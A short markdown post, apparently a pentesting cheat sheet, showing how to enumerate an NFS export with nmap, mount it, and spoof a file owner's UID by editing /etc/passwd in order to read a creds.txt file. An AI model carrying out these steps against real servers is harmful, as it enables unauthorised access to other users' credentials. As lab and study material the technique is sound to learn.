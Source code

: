 ```yaml
---
layout: post
title:  "exploit - nfs"
date:   2022-01-01
categories: web
---
```



## NFS mount

```bash
nmap -p 111 --script nfs* 10.10.10.10

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /exploitme 10.10.10.10/255.255.0.0
```

```bash
mkdir exploit
sudo mount -o nolock 10.10.10.10:/exploitme ~/exploit/
cd exploit/ && ls

rwx------ 1 1014  1014   48 Jun 10 09:16 creds.txt
```

- only user with the id 1014 can read the creds.txt file

## add local user with id 1014

```bash
sudo adduser pwn
sudo sed -i -e 's/1001/1014/g' /etc/passwd
cat /etc/passwd | grep pwn
pwn:x:1014:1014:,,,:/home/pwn:/bin/bash
```




